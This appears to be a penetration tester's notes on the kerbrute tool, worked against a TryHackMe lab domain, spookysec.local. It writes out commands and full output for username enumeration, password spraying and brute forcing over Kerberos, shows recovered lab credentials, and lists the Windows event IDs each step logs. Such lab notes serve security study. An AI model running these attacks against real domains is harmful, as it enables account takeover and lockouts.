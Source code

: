 
obs! last updated 2019 - version 1.0.3! - Still mostly works though
(The date shown in the file date)

a quick way to enumerate users using a wordlist and asreproasting
	= checking is an account doesn't require preauth (so we can get the hash without authenticating - but here we just use it to enum, not actually check for a hash or even if it is a no preauth account)
(in the code we see get hash functionality though)

### Enumerating users

`~/tools/kerbrute userenum -d domain.com --dc 10.10.10.10 usernames.txt` 

```sh
┌──(kali㉿proxli)-[~/boxes/thm/attacktive]
└─$ ~/tools/kerbrute userenum -d spookysec.local --dc 10.10.229.142 userlist.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/04/25 - Ronnie Flathers @ropnop

2025/07/04 19:19:37 >  Using KDC(s):
2025/07/04 19:19:37 >   10.10.229.142:88

2025/07/04 19:19:37 >  [+] VALID USERNAME:       james@spookysec.local
2025/07/04 19:19:38 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2025/07/04 19:19:39 >  [+] VALID USERNAME:       James@spookysec.local
2025/07/04 19:19:39 >  [+] VALID USERNAME:       robin@spookysec.local
2025/07/04 19:19:43 >  [+] VALID USERNAME:       darkstar@spookysec.local
2025/07/04 19:19:45 >  [+] VALID USERNAME:       administrator@spookysec.local
2025/07/04 19:19:49 >  [+] VALID USERNAME:       backup@spookysec.local
2025/07/04 19:19:51 >  [+] VALID USERNAME:       paradox@spookysec.local
2025/07/04 19:20:03 >  [+] VALID USERNAME:       JAMES@spookysec.local
2025/07/04 19:20:08 >  [+] VALID USERNAME:       Robin@spookysec.local
2025/07/04 19:20:32 >  [+] VALID USERNAME:       Administrator@spookysec.local
2025/07/04 19:21:21 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2025/07/04 19:21:37 >  [+] VALID USERNAME:       Paradox@spookysec.local
2025/07/04 19:22:30 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2025/07/04 19:22:45 >  [+] VALID USERNAME:       ori@spookysec.local
2025/07/04 19:23:18 >  [+] VALID USERNAME:       ROBIN@spookysec.local
2025/07/04 19:25:13 >  Done! Tested 73317 usernames (16 valid) in 336.514 seconds
```

Logged event(s):
[4768 - A Kerberos authentication ticket (TGT) was requested](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768)

### Password spray

`~/tools/kerbrute passwordspray -d domain.com --dc 10.10.10.10 domain_users.txt password123`

```sh
┌──(kali㉿proxli)-[~/boxes/thm/attacktive]
└─$ ~/tools/kerbrute passwordspray -d spookysec.local --dc 10.10.229.142 users.txt management2005

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/04/25 - Ronnie Flathers @ropnop

2025/07/04 19:42:01 >  Using KDC(s):
2025/07/04 19:42:01 >   10.10.229.142:88

2025/07/04 19:42:01 >  [+] VALID LOGIN:  svc-admin@spookysec.local:management2005
2025/07/04 19:42:01 >  Done! Tested 8 logins (1 successes) in 0.104 seconds
```

```sh
┌──(kali㉿proxli)-[~/boxes/thm/attacktive]
└─$ ~/tools/kerbrute passwordspray -d spookysec.local --dc 10.10.229.142 users.txt Password123  

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/04/25 - Ronnie Flathers @ropnop

2025/07/04 19:42:22 >  Using KDC(s):
2025/07/04 19:42:22 >   10.10.229.142:88

2025/07/04 19:42:22 >  Done! Tested 8 logins (0 successes) in 0.216 seconds
```

Logged event(s):
[4768 - A Kerberos authentication ticket (TGT) was requested](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768)
[4771 - Kerberos pre-authentication failed](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4771)

### Brute force specific user

`~/tools/kerbrute bruteuser -d domain.com --dc 10.10.10.10 passwords.txt usernamehere`

```
┌──(kali㉿proxli)-[~/boxes/thm/attacktive]
└─$ ~/tools/kerbrute bruteuser -d spookysec.local --dc 10.10.229.142 passwordlist.txt a-spooks    

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/04/25 - Ronnie Flathers @ropnop

2025/07/04 20:02:44 >  Using KDC(s):
2025/07/04 20:02:44 >   10.10.229.142:88

2025/07/04 20:15:49 >  Done! Tested 70188 logins (0 successes) in 784.784 seconds
```

Logged event(s):
[4768 - A Kerberos authentication ticket (TGT) was requested](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768)
[4771 - Kerberos pre-authentication failed](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4771)

### Brute Force with creds in file

`~/tools/kerbrute bruteforce -d domain.com --dc 10.10.10.10 creds-pairs.txt`
where cread-pairs.txt has the format user:pass, one pair per line

```sh
┌──(kali㉿proxli)-[~/boxes/thm/attacktive]
└─$ ~/tools/kerbrute bruteforce -d spookysec.local --dc 10.10.229.142 user-pass.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/04/25 - Ronnie Flathers @ropnop

2025/07/04 20:30:43 >  Using KDC(s):
2025/07/04 20:30:43 >   10.10.229.142:88

2025/07/04 20:30:43 >  [+] VALID LOGIN:  svc-admin@spookysec.local:management2005
2025/07/04 20:30:43 >  [+] VALID LOGIN:  backup@spookysec.local:backup2517860
2025/07/04 20:30:43 >  Done! Tested 2 logins (2 successes) in 0.304 seconds
```

Logged event(s):
[4768 - A Kerberos authentication ticket (TGT) was requested](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768)
[4771 - Kerberos pre-authentication failed](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4771)

### Help

```sh
┌──(kali㉿proxli)-[~/tools]
└─$ ./kerbrute -h             

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/04/25 - Ronnie Flathers @ropnop

This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication.
It is designed to be used on an internal Windows domain with access to one of the Domain Controllers.
Warning: failed Kerberos Pre-Auth counts as a failed login and WILL lock out accounts

Usage:
  kerbrute [command]

Available Commands:
  bruteforce    Bruteforce username:password combos, from a file or stdin
  bruteuser     Bruteforce a single user´s password from a wordlist
  help          Help about any command
  passwordspray Test a single password against a list of users
  userenum      Enumerate valid domain usernames via Kerberos
  version       Display version info and quit

Flags:
      --dc string       The location of the Domain Controller (KDC) to target. If blank, will lookup via DNS
      --delay int       Delay in millisecond between each attempt. Will always use single thread if set
  -d, --domain string   The full domain to use (e.g. contoso.com)
  -h, --help            help for kerbrute
  -o, --output string   File to write logs to. Optional.
      --safe            Safe mode. Will abort if any user comes back as locked out. Default: FALSE
  -t, --threads int     Threads to use (default 10)
  -v, --verbose         Log failures and errors

Use "kerbrute [command] --help" for more information about a command.
```

```sh
┌──(kali㉿proxli)-[~/tools]
└─$ ./kerbrute userenum --help

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/04/25 - Ronnie Flathers @ropnop

Will enumerate valid usernames from a list by constructing AS-REQs to requesting a TGT from the KDC.
If no domain controller is specified, the tool will attempt to look one up via DNS SRV records.
A full domain is required. This domain will be capitalized and used as the Kerberos realm when attempting the bruteforce.
Valid usernames will be displayed on stdout.

Usage:
  kerbrute userenum [flags] <username_wordlist>

Flags:
  -h, --help   help for userenum

Global Flags:
      --dc string       The location of the Domain Controller (KDC) to target. If blank, will lookup via DNS
      --delay int       Delay in millisecond between each attempt. Will always use single thread if set
  -d, --domain string   The full domain to use (e.g. contoso.com)
  -o, --output string   File to write logs to. Optional.
      --safe            Safe mode. Will abort if any user comes back as locked out. Default: FALSE
  -t, --threads int     Threads to use (default 10)
  -v, --verbose         Log failures and errors
```
